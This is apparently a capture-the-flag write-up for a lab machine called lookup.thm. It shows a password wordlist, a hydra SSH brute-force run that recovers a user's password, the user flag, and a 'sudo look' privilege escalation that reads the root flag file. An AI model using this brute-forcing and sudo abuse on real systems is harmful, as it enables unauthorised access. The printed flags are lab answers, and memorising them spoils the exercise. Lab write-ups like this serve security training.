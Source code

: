 ```bash
thepassword
jose(1993)
jose'sbabygurl
jose&vane
jose&takie
jose&samantha
jose&pam
jose&jlo
jose&jessica
jose&jessi
josemario.AKA(think)
jose.medina.
jose.mar
jose.luis.24.oct
jose.line
jose.leonardol00
jose.leas.30
jose.ivan
jose.122
jose.hm
jose.hater
#etc......
```
put these and try brute forcing

used hydra
```
hydra -l think -P pass.txt lookup.thm ssh
```
output
```zsh
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-10 05:42:22
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 37 login tries (l:1/p:37), ~3 tries per task
[DATA] attacking ssh://lookup.thm:22/
[22][ssh] host: lookup.thm   login: think   password: josemario.AKA(think)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-10 05:42:34
```
got the password `josemario.AKA(think)`
login through ssh
```
think@ip-10-10-20-241:~$ ls
user.txt
think@ip-10-10-20-241:~$ cat user.txt
38375fb4dd8baa2b2039ac03d92b820e
```
user flag: `38375fb4dd8baa2b2039ac03d92b820e`

check sudo perms
```
sudo -l
```
output
```
Matching Defaults entries for think on ip-10-10-20-241:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on ip-10-10-20-241:
    (ALL) /usr/bin/look
```
look is allowed to use with sudo
```
sudo look '' /root/root.txt
```